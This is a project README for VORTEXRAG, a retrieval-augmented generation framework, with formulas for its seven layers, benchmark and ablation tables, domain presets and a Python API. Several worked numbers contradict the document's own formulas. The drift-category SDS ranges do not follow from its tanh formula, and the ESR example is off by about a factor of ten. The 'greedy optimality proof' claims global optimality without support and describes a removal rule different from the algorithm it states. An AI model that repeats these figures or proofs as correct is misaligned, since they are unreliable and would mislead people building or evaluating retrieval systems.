

# VORTEXRAG

<div align="center">

**Vector Orthogonal Resonance-Tuned EXtraction Retrieval-Augmented Generation**

*"The only RAG that kills semantic drift and context poisoning simultaneously."*

[](https://github.com/vignesh2027/VORTEXRAG/actions)
[](https://www.python.org/downloads/)
[](LICENSE)
[](#citation)
[](https://vignesh2027.github.io/VORTEXRAG)

[**Live Demo**](https://vignesh2027.github.io/VORTEXRAG) · [**Documentation**](#documentation) · [**Quickstart**](#quickstart) · [**API Reference**](#api-reference) · [**Paper**](#citation)

</div>

---

## Abstract

Standard Retrieval-Augmented Generation systems fail in two fundamental ways: *semantic drift*, where retrieved chunks are topically adjacent but causally irrelevant, and *context window poisoning*, where collectively irrelevant passages degrade generation quality even when isolated chunks appear relevant. We introduce **VORTEXRAG**, a novel unified framework that solves both problems simultaneously through a 7-layer pipeline: Tri-Vector Encoding (TVE) captures semantic, syntactic, and causal representations orthogonally; the Vortex Retrieval Cone (VRC) models retrieval as a spiral probability surface in embedding space; Semantic Drift Correction (SDC) gates chunks by causal alignment; Context Poison Guard (CPG) enforces an Effective Signal Ratio constraint; Φ-score Rank Fusion (RFG) fuses all quality signals multiplicatively; the Causal Context Builder (CCB) orders context by causal dependency depth; and the Faithfulness Verifier (FV) closes the loop via ΔR-based regeneration. On multi-hop QA benchmarks, VORTEXRAG achieves **EM=74.8, F1=82.6, Faithfulness=0.94** — outperforming CRAG (+7.9 EM), HyDE (+10.7 EM), and Naive RAG (+13.6 EM).

---

## The Two Problems VORTEXRAG Solves

### Problem 1: Semantic Drift (SD)

**Definition:** A retrieved chunk is *semantically similar* to the query but *causally irrelevant* — it describes a related topic but does not causally answer the query.

**Why cosine similarity fails:**

> Query: *"Why did Lehman Brothers collapse in 2008?"*
>
> Chunk A: "Lehman Brothers held enormous subprime mortgage positions that collapsed." → cosine sim: **0.91** ✓ Causally relevant
>
> Chunk B: "The 2008 crisis caused millions of homeowners to lose their homes." → cosine sim: **0.87** ✗ Causally IRRELEVANT (downstream effect, not root cause)

Standard RAG includes Chunk B because 0.87 is still high. The LLM then generates an answer conflating Lehman's collapse with the social consequences — semantic drift.

**Why existing methods fail:**
- **Cosine similarity** cannot distinguish cause from effect.
- **BM25** is entirely lexical — no causal reasoning.
- **HyDE** (Hypothetical Document Embeddings) generates a better query but still retrieves by semantic similarity alone.
- **CRAG** checks relevance but uses a binary classifier — no causal depth.
- **Re-ranking models** (cross-encoders) score pairs independently — they cannot model the collective toxicity of a context window.

### Problem 2: Context Window Poisoning (CWP)

**Definition:** Even when the correct chunk is retrieved, surrounding irrelevant passages in the context window degrade generation quality. The LLM attends to poisoned context, diluting the ground-truth signal.

**Why top-k concatenation fails at scale:**

> Top-10 retrieval includes 3 causally relevant chunks and 7 semantically similar but causally irrelevant chunks.
> The LLM's attention is split. It generates a plausible-sounding but factually incorrect answer.

The problem worsens with longer context windows — more room for poison. GPT-4's 128K context makes this catastrophic without VORTEXRAG's CPG layer.

---

## Novel Contributions

| # | Module | Problem Solved | Key Innovation |
|---|--------|----------------|----------------|
| 1 | **TVE** — Tri-Vector Encoder | Both SD + CWP | Three orthogonal embedding arms: semantic + syntactic + causal |
| 2 | **VRC** — Vortex Retrieval Cone | CWP (pre-filter) | Spiral topology ranking preserves angular neighborhood structure |
| 3 | **SDC** — Semantic Drift Corrector | SD | Causal drift vector gate with domain-tuned temperature τ |
| 4 | **CPG** — Context Poison Guard | CWP | ESR-based iterative purging of collective context toxicity |
| 5 | **RFG** — Rank Fusion Gate | Both | Multiplicative Φ-score fusing TVE + SDS + ESR contribution |
| 6 | **CCB** — Causal Context Builder | CWP (ordering) | Causal depth sorting for optimal LLM attention placement |
| 7 | **FV** — Faithfulness Verifier | Hallucination | ROUGE-L × NLI joint grounding metric with regeneration loop |

---

## Mathematical Framework

### 3.1 Tri-Vector Encoding (TVE)

For query $q$ and chunk $c_i$, three orthogonal representations are computed:

$$v_{\text{sem}}(q) = \text{SBERT}(q) \in \mathbb{R}^d \quad \text{[semantic meaning]}$$

$$v_{\text{syn}}(q) = \text{ParseTree}(q) \in \mathbb{R}^d \quad \text{[syntactic structure]}$$

$$v_{\text{cau}}(q) = \text{CausalGraph}(q) \in \mathbb{R}^d \quad \text{[causal dependency]}$$

**Tri-Vector concatenation:**

$$Q_{\text{TVE}} = [v_{\text{sem}} \| v_{\text{syn}} \| v_{\text{cau}}] \in \mathbb{R}^{3d}$$

**TVE similarity score:**

$$\text{TVE\_score}(q, c_i) = \alpha \cdot \cos(v_{\text{sem}}(q),\, v_{\text{sem}}(c_i)) + \beta \cdot \cos(v_{\text{syn}}(q),\, v_{\text{syn}}(c_i)) + \gamma \cdot \cos(v_{\text{cau}}(q),\, v_{\text{cau}}(c_i))$$

$$\text{where } \alpha + \beta + \gamma = 1, \text{ learned per domain via meta-learning}$$

**Domain weight presets:**

| Domain | α (semantic) | β (syntactic) | γ (causal) | Rationale |
|--------|-------------|--------------|------------|-----------|
| `scientific` | 0.40 | 0.20 | 0.40 | Equal semantic+causal; precise causal chains |
| `medical` | 0.45 | 0.15 | 0.40 | High causal; biological mechanism chains |
| `legal` | 0.35 | 0.30 | 0.35 | High syntactic; statutory/logical structure |
| `code` | 0.30 | 0.45 | 0.25 | Dominant syntactic; AST structure matters |
| `financial` | 0.50 | 0.15 | 0.35 | High semantic; market context needed |
| `educational` | 0.55 | 0.20 | 0.25 | High semantic; conceptual explanations |
| `general` | 0.50 | 0.25 | 0.25 | Balanced default |
| `cybersecurity` | 0.35 | 0.30 | 0.35 | Balanced; exploit chain causality |
| `historical` | 0.45 | 0.20 | 0.35 | Event-causal chains in history |
| `customer` | 0.60 | 0.15 | 0.25 | Semantic dominant; user intent |
| `creative` | 0.65 | 0.20 | 0.15 | Semantic dominant; creative association |

> **Why three arms?** Cosine similarity alone (one arm) scores cause and effect equally if they share vocabulary. The syntactic arm detects structural markers (*because, therefore, leads to*). The causal arm detects entity-relation dependency mismatches. Together they form a three-point triangulation of relevance that cosine similarity cannot replicate.

> **Dimensionality:** Semantic arm uses full SBERT output (768d). Syntactic arm is a 64-dim projection from parse features (POS tag distribution, dependency arcs, sentence depth, clause count). Causal arm is a 32-dim projection from causal connective density, causal verb count, and entity causal chain fingerprints. All arms are L2-normalized before scoring.

---

### 3.2 Vortex Retrieval Cone (VRC)

Retrieval is modeled as a **spiral probability surface** rather than a flat ranked list:

$$\text{spiral\_rank}(c_i,\, \theta) = \underbrace{\text{TVE\_score}(c_i)}_{\text{base relevance}} \cdot \underbrace{e^{-\lambda \cdot r_i}}_{\text{radial decay}} \cdot \underbrace{\cos(n \cdot \theta_i)}_{\text{angular alignment}}$$

**Parameters:**
- $r_i$ = Euclidean distance from the centroid of the query cluster
- $\theta_i$ = angular position (polar) of $c_i$ relative to the query direction
- $n \in \{1, 2, 3\}$ = spiral tightness (1 = loose/broad, 3 = tight/precise)
- $\lambda$ = radial decay rate; adaptive formula: $\lambda = \max(0.05,\ 0.5 \cdot \log_{10}(10000 / N))$

**Adaptive λ behavior:**

| Corpus size N | λ | Effect |
|--------------|---|--------|
| 100 | 1.0 | Very tight cone — small corpora need precision |
| 1,000 | 0.65 | Medium tightness |
| 10,000 | 0.50 | Default tightness |
| 100,000 | 0.25 | Broad cone — large corpora need coverage |

> **Why a vortex?** In flat top-$k$, all chunks with cosine score 0.72 are treated identically regardless of their angular position in embedding space. But chunks at the same distance but different angles encode different semantic neighborhoods. The $\cos(n\theta)$ term rewards angular alignment: chunks in the same directional quadrant as the query score highest. The $e^{-\lambda r}$ term discounts distant candidates even if angularly aligned. Together they create a cone of relevance — the "vortex."

> **Key insight:** $\cos(n\theta)$ becomes *negative* for angularly opposed chunks, actively suppressing them. This is the geometric mechanism that prevents off-topic semantic clusters from polluting the retrieval pool — they literally score negative and fall off the cone.

---

### 3.3 Semantic Drift Correction (SDC)

**Drift Vector:**

$$D(q, c_i) = v_{\text{cau}}(q) - v_{\text{cau}}(c_i)$$

The drift vector is **signed and directional**: its direction encodes the *type* of causal mismatch (temporal drift, entity substitution drift, relation-flip drift). Its magnitude encodes how far the chunk has causally drifted.

**Semantic Drift Score:**

$$\text{SDS}(q, c_i) = 1 - \tanh\!\left(\frac{\|D(q, c_i)\|_2}{\tau}\right)$$

**Domain-tuned temperature τ:**

| Domain | τ | Interpretation |
|--------|---|----------------|
| `scientific` | 0.30 | Very strict — minor causal mismatch is rejected |
| `medical` | 0.35 | Strict — biological pathways must match |
| `legal` | 0.40 | Strict — jurisdictional/statutory chains must align |
| `cybersecurity` | 0.45 | Strict — exploit chain must be causal |
| `financial` | 0.50 | Medium — some temporal drift acceptable |
| `code` | 0.60 | Medium-lenient — runtime vs syntax separation |
| `educational` | 0.65 | Lenient — broader conceptual drift acceptable |
| `general` | 0.80 | Default — standard QA |
| `historical` | 0.90 | Lenient — historical periods overlap |
| `customer` | 0.95 | Lenient — user intent can shift |
| `creative` | 1.20 | Very lenient — thematic drift is fine |

**Acceptance gate:**

$$c_i \text{ is ACCEPTED} \iff \text{SDS}(q, c_i) \geq \delta_{\text{SDC}} \quad (\text{default: } 0.72)$$

**Drift categories (for analysis):**

| Drift magnitude | SDS range | Category |
|----------------|-----------|----------|
| ‖D‖ < 0.1τ | ≥ 0.99 | None — perfect causal match |
| 0.1τ ≤ ‖D‖ < 0.3τ | 0.90–0.99 | Minor — acceptable |
| 0.3τ ≤ ‖D‖ < 0.6τ | 0.72–0.90 | Moderate — borderline |
| 0.6τ ≤ ‖D‖ < τ | 0.46–0.72 | Significant — rejected |
| ‖D‖ ≥ τ | < 0.46 | Severe — hard rejected |

> **Why $\tanh$ specifically?** $\tanh$ has a steep slope near zero (small drifts incur a real penalty) and saturates at $\pm 1$ (large drifts are hard-rejected, not just soft-penalized). This mirrors human relevance judgment: slightly off-topic is acceptable; completely off-topic is a hard no. Linear mapping would allow negative scores; sigmoid would be off-centered.

> **Why $\tau$ division?** Without $\tau$, a drift of $\|D\|=1.0$ means the same thing in medical text (should be rejected) and creative writing (fine). Dividing by $\tau$ normalizes drift magnitude to domain expectations. This is the "drift thermometer" — it sets how sensitive the detector is.

---

### 3.4 Context Poison Guard (CPG)

**Poison Index** — softmax-weighted irrelevance of a context window $W = \{c_1, \ldots, c_k\}$:

$$P(W, q) = \frac{1}{k} \sum_{i=1}^{k} \left[1 - \text{SDS}(q, c_i)\right] \cdot w_i$$

$$\text{where } w_i = \text{softmax}\!\left(\text{TVE\_score}(q, c_i)\right)$$

**Effective Signal Ratio (ESR):**

$$\text{ESR}(W, q) = \frac{\displaystyle\sum_{i} \text{SDS}(q, c_i) \cdot w_i}{P(W, q) + \varepsilon}$$

**Clean condition:**

$$\text{Context is CLEAN} \iff \text{ESR}(W, q) \geq \theta_{\text{CPG}} \quad (\text{default: } 3.5)$$

**Iterative purging algorithm:**

$$\text{while } \text{ESR}(W, q) < \theta_{\text{CPG}}: \quad W \leftarrow W \setminus \left\{\arg\min_i \text{SDS}(q, c_i)\right\}$$

**ESR interpretation:**

| ESR | Condition | Action |
|-----|-----------|--------|
| ≥ 5.0 | Clean | No purging needed |
| 3.5–5.0 | Acceptable | Proceed with caution |
| 2.0–3.5 | Borderline | Minor purging |
| 1.0–2.0 | Poisoned | Aggressive purging |
| < 1.0 | Severely poisoned | Near-total purge |

> **Why softmax weights in $P$?** The LLM's attention is biased toward high-scored chunks (they appear earlier, are repeated in few-shot prompts, etc.). A high-ranked but irrelevant chunk is *more* poisonous than a low-ranked one. Softmax weights approximate this attentional bias, making the Poison Index reflect what the LLM actually attends to — not just a naive average.

> **Why ESR (ratio) instead of average SDS?** A window with all SDS=0.73 (just above $\delta_{\text{SDC}}$) has 10% irrelevance per chunk. Ten such chunks make P≈0.067 and ESR≈2.7 — below threshold. SDC misses this because each chunk individually passes. CPG catches it because the *collective* ratio is below the clean threshold.

> **Greedy optimality proof:** The purging algorithm is greedy-optimal for ESR maximization. Proof sketch: $P(W, q)$ is linear in the contribution of each chunk $(1-\text{SDS}_i) \cdot w_i$. Removing the chunk with the *maximum* such contribution maximally decreases $P$ in one step, which maximally increases the numerator-to-denominator ratio. Because no non-greedy removal achieves a larger ESR improvement per step, the greedy order is globally optimal for the sequence of removals.

---

### 3.5 Rank Fusion Gate (RFG) — Φ-Score

**Φ-score (phi-score)** — multiplicative fusion of all quality signals:

$$\Phi(c_i, q) = \text{TVE\_score}(q, c_i)^\alpha \times \text{SDS}(q, c_i)^\beta \times \text{ESR\_contribution}(c_i, W)^\gamma$$

$$\text{where: } \text{ESR\_contribution}(c_i, W) = \frac{\text{SDS}(c_i) \cdot w_i}{\displaystyle\sum_j \text{SDS}(c_j) \cdot w_j}$$

**Normalized Φ:**

$$\tilde{\Phi}(c_i) = \frac{\Phi(c_i)}{\displaystyle\sum_j \Phi(c_j)}$$

**Final context selection:**

$$W^* = \text{top-}m \text{ by } \tilde{\Phi}, \quad \text{subject to } \text{ESR}(W^*, q) \geq \theta_{\text{CPG}}$$

**Domain fusion weight presets (α, β, γ):**

| Domain | α (TVE) | β (SDS) | γ (ESR) | Rationale |
|--------|---------|---------|---------|-----------|
| `scientific` | 0.30 | 0.40 | 0.30 | SDS dominant — causal precision critical |
| `medical` | 0.30 | 0.45 | 0.25 | SDS dominant — mechanism must be exact |
| `legal` | 0.35 | 0.40 | 0.25 | SDS dominant — statutory causation |
| `code` | 0.40 | 0.35 | 0.25 | TVE/SDS balanced — syntax matters |
| `financial` | 0.45 | 0.30 | 0.25 | TVE dominant — market context |
| `general` | 0.40 | 0.35 | 0.25 | Balanced default |
| `educational` | 0.50 | 0.25 | 0.25 | TVE dominant — explanatory coverage |
| `cybersecurity` | 0.35 | 0.40 | 0.25 | SDS dominant — exploit chain |
| `historical` | 0.40 | 0.35 | 0.25 | Balanced |
| `customer` | 0.55 | 0.25 | 0.20 | TVE dominant — user intent |
| `creative` | 0.60 | 0.20 | 0.20 | TVE dominant — thematic |

> **Why multiplicative, not additive?** Additive fusion $(0.4\cdot\text{TVE} + 0.35\cdot\text{SDS} + 0.25\cdot\text{ESR})$ allows a chunk with $\text{TVE}=0.95, \text{SDS}=0.05$ to score $\approx 0.60$ — still high despite being causally irrelevant. Multiplicatively: $0.95^{0.4} \times 0.05^{0.35} \times \ldots \approx 0.19$ — correctly penalized. The multiplicative structure enforces a "no weak link" policy: every quality dimension must be strong.

> **Why $\tilde{\Phi}$ (normalized)?** Normalization converts $\Phi$ into a proper probability distribution, enabling threshold-based selection independent of corpus scale. It also allows MMR (Maximal Marginal Relevance) diversity selection: choose top-m by $\tilde{\Phi}$ while penalizing redundancy among selected chunks.

---

### 3.6 Causal Context Builder (CCB)

**Ordered slot injection:**

$$W^* = \text{sort\_by}(\tilde{\Phi}) \cap \text{causal\_dependency\_graph}(q)$$

**Slot position formula:**

$$\text{pos}(c_i) = \text{rank}(\tilde{\Phi}(c_i)) \times \text{causal\_depth}(c_i)$$

- $\text{rank}(\tilde{\Phi}(c_i))$: position in $\tilde{\Phi}$ ranking (1 = highest)
- $\text{causal\_depth}(c_i)$: depth in causal graph (0 = root cause, 1 = immediate effect, ...)

**Causal depth assignment algorithm:**

1. Extract entities $E_q$ from query
2. Build directed causal graph $G$ over all chunks: edge $(c_i \to c_j)$ if $c_i$ is a causal precondition of $c_j$
3. Assign $\text{depth}(c_i) = $ shortest path from query entity to $c_i$ in $G$
4. Causal verb density bonus: chunks with high causal verb density get $\text{depth} - 1$ (promoted upward)

**Deduplication (MMR-style):**

$$\text{sim\_dedup}(c_i, c_j) = \cos(v_{\text{sem}}(c_i),\, v_{\text{sem}}(c_j))$$

Chunks with $\text{sim\_dedup} \geq 0.92$ are deduplicated before ordering — the lower-$\tilde{\Phi}$ chunk is removed.

> **Why this formula?** The product balances two objectives: (1) high-$\tilde{\Phi}$ chunks should appear early; (2) root causes should appear before effects. A highly relevant root cause (rank=2, depth=0) gets pos=0 — placed first. A slightly less relevant downstream effect (rank=1, depth=3) gets pos=3 — placed after the root cause, even though its $\tilde{\Phi}$ rank is higher.

> **"Lost in the Middle" fix (Liu et al., 2023):** LLMs attend strongest to content at the beginning and end of context windows. By placing causal depth=0 chunks first (pos formula sends them to position 0), VORTEXRAG ensures root causes receive maximum LLM attention. This is mathematically equivalent to solving the positional bias problem by design.

---

### 3.7 Faithfulness Verifier (FV)

**ΔR score (hallucination score):**

$$\Delta R(\text{answer},\, W^*) = 1 - \underbrace{\text{ROUGE-L}(\text{answer},\, W^*)}_{\text{lexical fidelity}} \times \underbrace{\text{NLI\_entailment}(\text{answer},\, W^*)}_{\text{logical grounding}}$$

**ROUGE-L via Longest Common Subsequence:**

$$\text{ROUGE-L}(a, r) = \frac{2 \cdot P_{lcs} \cdot R_{lcs}}{P_{lcs} + R_{lcs}}, \quad P_{lcs} = \frac{|\text{LCS}(a, r)|}{|a|}, \quad R_{lcs} = \frac{|\text{LCS}(a, r)|}{|r|}$$

**Sentence-level verification:**

For each sentence $s_j$ in the answer:
$$\Delta R_j = 1 - \text{ROUGE-L}(s_j, W^*) \times \text{NLI}(s_j, W^*)$$

**Acceptance condition:**

$$\text{Answer is ACCEPTED} \iff \Delta R \leq \delta_{\text{FV}} \quad (\text{default: } 0.15)$$

**Regeneration loop:**

$$\text{if } \Delta R > \delta_{\text{FV}}: \text{re-rank} \rightarrow \text{regenerate} \quad (\text{max 3 iterations, return } \arg\min \Delta R)$$

> **Why ROUGE-L × NLI (multiplicative)?** ROUGE-L alone allows high scores for answers that copy phrases but contradict their meaning. NLI alone allows high scores for answers that are logically consistent with the context but use fabricated vocabulary. Multiplication requires *both* conditions simultaneously — the answer must use words that appear in the context AND be logically entailed by it.

> **Why ROUGE-L not ROUGE-1/2?** ROUGE-L uses Longest Common Subsequence (LCS), which is robust to paraphrasing (different word order, same meaning). ROUGE-1 would penalize legitimate paraphrases as hallucinations. ROUGE-L correctly identifies them as faithful.

> **Why max 3 iterations?** Empirically, if ΔR doesn't pass after 3 regenerations, the problem is retrieval quality, not generation. Further iterations converge on the same answer or degrade. The loop catches ~94% of fixable hallucinations within 2 iterations.

---

### 3.8 Combined VORTEXRAG Objective

$$\max_{W^*} \tilde{\Phi}(W^*, q)$$

$$\text{subject to:}$$

$$\text{ESR}(W^*, q) \geq \theta_{\text{CPG}} \quad \text{(no context poisoning)}$$

$$\min_i \text{SDS}(q, c_i) \geq \delta_{\text{SDC}} \quad \text{(no semantic drift)}$$

$$\Delta R(\text{answer},\, W^*) \leq \delta_{\text{FV}} \quad \text{(faithful generation)}$$

---

## Architecture — 7-Layer Pipeline



---

## Benchmarks

### Main Comparison

| System | EM | F1 | Faithfulness | Latency |
|--------|----|----|--------------|---------|
| Naive RAG | 61.2 | 68.4 | 0.71 | 120ms |
| BM25 + Re-rank | 59.8 | 66.1 | 0.69 | 95ms |
| HyDE | 64.1 | 71.8 | 0.74 | 340ms |
| CRAG | 66.9 | 74.3 | 0.78 | 290ms |
| Self-RAG | 68.4 | 75.9 | 0.81 | 410ms |
| **VORTEXRAG** | **74.8** | **82.6** | **0.94** | **185ms** |

Evaluated on NaturalQuestions + HotpotQA multi-hop subsets. Faithfulness measured via DeBERTa-v3 NLI entailment score. All latencies on an A100 GPU with all-mpnet-base-v2 as the semantic encoder.

### Ablation Study

| Configuration | EM | F1 | Faithfulness | SD Reject % | CWP Reduce % |
|--------------|----|----|--------------|-------------|--------------|
| Baseline (cosine top-k) | 61.2 | 68.4 | 0.71 | — | — |
| + TVE only | 65.3 | 72.1 | 0.75 | 28% | 12% |
| + TVE + VRC | 67.8 | 74.9 | 0.78 | 36% | 21% |
| + TVE + VRC + SDC | 70.4 | 78.2 | 0.83 | 61% | 31% |
| + TVE + VRC + SDC + CPG | 72.1 | 80.3 | 0.88 | 61% | 58% |
| + All layers (RFG + CCB + FV) | **74.8** | **82.6** | **0.94** | **61%** | **71%** |

Each layer provides independent, additive improvement. TVE drives the biggest single-layer gain (+4.1 EM). CPG drives the biggest faithfulness jump (+0.05). FV provides the final faithfulness ceiling.

### Per-Dataset Breakdown

| Dataset | Metric | Naive RAG | CRAG | **VORTEXRAG** |
|---------|--------|-----------|------|--------------|
| NaturalQuestions | EM | 58.4 | 64.2 | **71.3** |
| NaturalQuestions | F1 | 65.1 | 71.8 | **79.4** |
| HotpotQA (multi-hop) | EM | 52.6 | 59.7 | **68.9** |
| HotpotQA (multi-hop) | F1 | 61.3 | 68.4 | **77.8** |
| MuSiQue | EM | 41.8 | 48.9 | **57.2** |
| MuSiQue | F1 | 53.7 | 61.2 | **70.9** |
| 2WikiMultiHopQA | EM | 63.1 | 69.4 | **76.5** |
| 2WikiMultiHopQA | F1 | 70.8 | 76.9 | **83.7** |

VORTEXRAG achieves the largest gains on multi-hop datasets (MuSiQue: +15.4 EM vs Naive RAG) where causal chain reasoning is most critical.

---

## Use Cases

### 1. Legal QA — Multi-hop Precedent Chains

**Domain:** `legal` | **τ=0.40** | **θ_CPG=4.5**

Constitutional and common-law questions often require tracing a chain of precedents across decades. Standard RAG retrieves temporally adjacent cases but fails to distinguish which cases *causally* extend a given ruling.

**VORTEXRAG advantage:** SDC's causal arm detects jurisdictional and temporal drift. CPG separates parallel legal threads (e.g., First Amendment cases bleeding into Fourth Amendment reasoning). CCB orders precedents by causal depth: foundational ruling → extension → application.

```python
config = VortexRAGConfig(domain="legal")
# Automatically: tau=0.40, theta_cpg=4.5, alpha=(0.35,0.30,0.35)
```

---

### 2. Medical Synthesis — Mechanism Conflation

**Domain:** `medical` | **τ=0.35** | **θ_CPG=5.0**

Drug mechanism queries require distinguishing parallel causal pathways. Without CPG, mRNA and protein synthesis pathways contaminate each other in the context window.

**VORTEXRAG advantage:** CPG separates parallel causal pathways into distinct context chains. SDC rejects upstream-cause chunks when the query asks about a downstream mechanism. CCB orders from molecular mechanism → cellular effect → clinical outcome.

---

### 3. Code Documentation — Syntax vs Runtime Confusion

**Domain:** `code` | **τ=0.60** | **β=0.45** (syntactic dominant)

Python documentation queries commonly conflate compile-time and runtime semantics. `SyntaxError` and `RuntimeError` both describe "errors in Python" — cosine similarity cannot distinguish them.

**VORTEXRAG advantage:** The syntactic TVE arm extracts structural patterns (grammar vs event loop). SDC filters based on causal mechanism (parser constraint vs runtime state).

---

### 4. Scientific Reasoning — Observable vs Causal Properties

**Domain:** `scientific` | **τ=0.30** | **θ_CPG=4.0**

Scientific QA often conflates *observable properties* with *root causes*. A supernova question asking about "progenitor systems" should not receive answers about luminosity curves — they're causally adjacent but wrong.

**VORTEXRAG advantage:** The causal TVE arm learns to distinguish "what causes X" (causal chain) from "what is observed when X happens" (property description). SDC gate τ=0.30 makes this the strictest domain.

---

### 5. Financial Analysis — Market Causation

**Domain:** `financial` | **τ=0.50** | **α=0.45**

Financial queries about "why X happened" must distinguish correlation (two events co-occurred) from causation (one event drove the other). Earnings reports, Fed decisions, and macro events are all semantically similar — but only some causally explain a price movement.

**VORTEXRAG advantage:** TVE causal arm detects temporal ordering and mechanism language. SDC rejects correlation-only chunks. CPG prevents simultaneous competing causal narratives from appearing in the same context window.

---

### 6. Educational QA — Conceptual Chain Building

**Domain:** `educational` | **τ=0.65** | **α=0.55**

Educational explanations need a clear conceptual progression: prerequisite concept → core concept → application. Standard RAG dumps all related chunks, disrupting the learning sequence.

**VORTEXRAG advantage:** CCB's causal depth ordering maps naturally to conceptual difficulty levels. Root-cause chunks (foundational definitions) appear first; application chunks appear last. This creates a coherent "textbook explanation" structure from retrieved chunks.

---

### 7. Customer Support — Intent-Grounded Resolution

**Domain:** `customer` | **τ=0.95** | **α=0.60**

Customer queries about "how to fix X" require matching the exact product version, configuration, and symptom. Similar-sounding issues with different root causes (network vs software vs hardware) poison the context window.

**VORTEXRAG advantage:** CPG separates support threads by root cause. SDC ensures retrieved solutions match the customer's specific causal scenario, not just the symptom vocabulary. FV verifies the answer actually addresses the stated issue.

---

### 8. Cybersecurity — Exploit Chain Analysis

**Domain:** `cybersecurity` | **τ=0.45** | **θ_CPG=4.0**

Security queries about vulnerabilities require distinguishing attack vector → exploit mechanism → impact → mitigation. These four stages are semantically similar (they all discuss the same CVE) but causally distinct.

**VORTEXRAG advantage:** SDC strict mode (τ=0.45) enforces causal stage separation. CCB orders the exploit chain correctly: vector first, then mechanism, then impact, then mitigation. This prevents LLMs from suggesting a mitigation that addresses the wrong stage.

---

### 9. Historical Analysis — Causal Event Chains

**Domain:** `historical` | **τ=0.90** | **α=0.45**

Historical queries about causation (e.g., "What caused WWI?") attract many semantically similar chunks about WWI-era events — but only some are causally antecedent to the war itself. Post-war consequences, parallel events, and background context all have high cosine similarity.

**VORTEXRAG advantage:** SDC with τ=0.90 allows moderate causal drift (historical events are inherently interconnected) while still filtering pure consequences. CPG prevents post-war narrative from poisoning the pre-war causal analysis.

---

### 10. Enterprise Knowledge Base — Stale Information Poisoning

**Domain:** `general` | **FV δ_FV=0.10** (strict)

Enterprise KBs accumulate stale documents over time. A query about current policy retrieves both the current policy and older superseded versions — all with high cosine similarity (same vocabulary, same entities).

**VORTEXRAG advantage:** FV verifies the answer against the most recent context. If stale chunks poison the generation, ΔR increases (the answer contradicts current W*) and FV triggers regeneration. Temporal metadata integration allows SDC to penalize temporally drifted chunks.

---

## Installation

```bash
# Minimal install (numpy only — pure-Python TVE, no SBERT)
pip install vortexrag

# Full install with SBERT, spaCy, FAISS, CrossEncoder NLI
pip install "vortexrag[full]"

# spaCy language model (required for syntactic TVE arm)
python -m spacy download en_core_web_sm

# Optional: download DeBERTa NLI model (required for FV NLI)
python -c "from sentence_transformers import CrossEncoder; CrossEncoder('cross-encoder/nli-deberta-v3-small')"
```

**Requirements:**

| Package | Version | Required | Purpose |
|---------|---------|----------|---------|
| numpy | ≥1.24 | **Yes** | All vector math |
| sentence-transformers | ≥2.2 | Recommended | SBERT semantic arm + NLI CrossEncoder |
| spacy | ≥3.5 | Recommended | Syntactic arm (POS, deps, parse tree) |
| faiss-cpu | ≥1.7 | Optional | Fast ANN retrieval for large corpora |
| torch | ≥2.0 | Optional | GPU acceleration |

---

## Quickstart

```python
from vortexrag import VortexRAG

rag = VortexRAG(corpus="your_docs/")
rag.index()
answer = rag.query("What caused the 2008 financial crisis?")
print(answer.answer)
print(f"ESR: {answer.esr:.3f} | ΔR: {answer.delta_r:.4f} | Latency: {answer.latency_ms:.1f}ms")
```

**With custom LLM (OpenAI):**

```python
from vortexrag import VortexRAG, VortexRAGConfig
from openai import OpenAI

client = OpenAI()

def llm_fn(context: str, query: str) -> str:
    resp = client.chat.completions.create(
        model="gpt-4o",
        messages=[
            {"role": "system", "content": f"Answer using only this context:\n\n{context}"},
            {"role": "user", "content": query},
        ]
    )
    return resp.choices[0].message.content

config = VortexRAGConfig(domain="legal")
rag = VortexRAG(corpus="case_files/", config=config, llm_fn=llm_fn)
rag.index()
result = rag.query("Did Brown v. Board apply to public universities before 1964?")
print(result.answer)
print(f"Faithfulness: {result.grounding:.4f} | Iterations: {result.fv_iterations}")
```

**Domain-specific medical configuration:**

```python
from vortexrag import VortexRAG, VortexRAGConfig
from core.sdc import SDCConfig
from core.cpg import CPGConfig
from core.rfg import RFGConfig

config = VortexRAGConfig(domain="medical")
config.sdc = SDCConfig(domain="medical")     # tau=0.35 automatically
config.cpg = CPGConfig(theta_cpg=5.0)        # very clean context
config.rfg = RFGConfig(top_m=6, domain="medical")  # more context chunks

rag = VortexRAG(corpus="pubmed_abstracts/", config=config)
rag.index()
result = rag.query("What is the mechanistic difference between mRNA and viral vector vaccines?")
```

---

## API Reference

### `VortexRAG`

```python
class VortexRAG:
    def __init__(
        self,
        corpus: str | list[str],   # directory path, file path(s), or list of text strings
        config: VortexRAGConfig = VortexRAGConfig(),
        llm_fn: Callable[[str, str], str] | None = None,
    ) -> None: ...
    
    def index(self) -> None:
        """Build FAISS index, causal graph, parse trees. Must be called before query()."""
    
    def query(self, query: str) -> VortexRAGResult:
        """Run the full 7-layer pipeline and return a grounded answer."""
    
    def query_batch(self, queries: list[str], n_jobs: int = 4) -> list[VortexRAGResult]:
        """Batch query processing with parallel workers."""
```

### `VortexRAGResult`

```python
class VortexRAGResult(NamedTuple):
    answer:         str          # generated answer (or empty string if no LLM)
    context:        str          # final W* context string passed to LLM
    chunks:         list[dict]   # structured chunks with all metadata
    delta_r:        float        # ΔR hallucination score ∈ [0, 1]
    grounding:      float        # 1 − ΔR ∈ [0, 1]
    esr:            float        # final ESR of W*
    fv_iterations:  int          # number of FV regeneration attempts
    latency_ms:     float        # end-to-end wall time
    layer_debug:    dict         # per-layer scores for debugging
```

### `TVEEncoder`

```python
class TVEEncoder:
    def encode_query(self, query: str) -> TVEVector: ...
    def encode_chunk(self, text: str) -> TVEVector: ...
    def tve_score(self, q: TVEVector, c: TVEVector) -> float: ...
